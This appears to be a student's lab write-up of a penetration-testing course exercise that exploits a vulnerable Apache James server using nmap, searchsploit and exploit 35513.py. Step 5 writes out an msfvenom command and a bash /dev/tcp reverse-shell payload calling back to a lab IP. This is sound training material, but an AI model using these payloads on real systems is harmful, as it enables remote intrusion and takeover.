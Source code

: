 ### 14.3.1.1 Exercises
#### 1. Connect to your dedicated Linux client and start the vulnerable Apache James service using the /usr/local/james/bin/run.sh script.

- Started server as root
  ![image-20200711171107909](.14.3.1.1.assets/image-20200711171107909.png)

#### 2. Enumerate the target using port scanning utilities and use information from the banners and Internet searches to determine the software running on the machine.

- Nmap scan 
  `sudo nmap 192.168.216.44 -p- -sV -vv --open --reason`

  ![image-20200711171721591](.14.3.1.1.assets/image-20200711171721591.png)

- Googling yields more info on the software (Apache James) + possible vulnerabilities for our version
  ![image-20200711171904470](.14.3.1.1.assets/image-20200711171904470.png)

#### 3. Use the searchsploit tool to find exploits for this version on the online resources mentioned in this module.

- Searchsploit shows 2 vulnerabilities for this specific version of James
  ![image-20200711172059274](.14.3.1.1.assets/image-20200711172059274.png)

#### 4. Launch the exploit and verify that the payload is executed upon logging in to the machine.

- Used exploit 35513.py & it worked
  ![image-20200711172312032](.14.3.1.1.assets/image-20200711172312032.png)
- Logged into the server.  Presence of cluttered text indicates the payload was executed:
  ![image-20200711172455658](.14.3.1.1.assets/image-20200711172455658.png)
- Presence of proof.txt proves the payload was executed successfully.
  ![image-20200711172550785](.14.3.1.1.assets/image-20200711172550785.png)

#### 5. Attempt to modify the payload variable in order to get a reverse shell on the target machine.

- I didn't want to assume the machine has netcat, so I used msfvenom to generate a reverse shell payload:

  ```bash
  msfvenom -p cmd/unix/reverse_bash LHOST=192.168.119.216 LPORT=8000 -f raw
  ```

- Inserted this into the exploit's payload variable:

  ```python
  payload =  '0<&113-;exec 113<>/dev/tcp/192.168.119.216/8000;sh <&113 >&113 2>&113'
  ```

- Ran exploit code
  ![image-20200711175657186](.14.3.1.1.assets/image-20200711175657186.png)

- Started netcat listener & logged into Linux target to trigger payload

  ![image-20200711175807655](.14.3.1.1.assets/image-20200711175807655.png)

  ![image-20200711175856923](.14.3.1.1.assets/image-20200711175856923.png)